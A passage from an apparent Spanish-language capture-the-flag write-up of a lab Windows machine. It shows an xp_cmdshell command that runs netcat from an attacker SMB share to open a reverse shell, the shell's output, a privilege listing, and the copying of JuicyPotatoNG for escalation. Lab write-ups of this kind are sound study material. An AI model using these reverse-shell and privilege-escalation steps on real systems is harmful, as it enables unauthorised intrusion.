 ## Intrusion.

Con ``xp_cmdshell`` se puede ejecutar un programa como ``netcat`` desde un recurso compartido y asi tener una revershell , usamos ``impacket-smbserver`` y nos ponemos en escuhca con ``nc``.

````bash
SQL> xp_cmdshell "\\10.10.14.9\smbFolder\nc64.exe -e cmd 10.10.14.9 443"
`````

````bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...

connect to [10.10.14.9] from (UNKNOWN) [10.10.10.125] 49684
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc
`````

## Escalar privilegios.

Tenemos dos formas de escalar privilegios en esta maquina.

Way-1 ``SeImpersonatePrivilege``

````bash
C:\Users\mssql-svc\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
``SeImpersonatePrivilege``        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
`````

Con SeImpersonatePrivilege se puede ejecutar comando como administrador  con la tool ``JuicyPotatoNG.exe`` 

>JuicyPotatoNG.exe esta actualizada y se puede usar para windows server 2019 

Copiamos el JuicyPotatoNG.exe en la maquina victima usando de nuevo el smbserver.

````bash
C:\Windows\Temp\admin>copy \\10.10.14.9\smbFolder\JuicyPotatoNG.exe
copy \\10.10.14.9\smbFolder\JuicyPotatoNG.exe
        1 file(s) copied.
`````
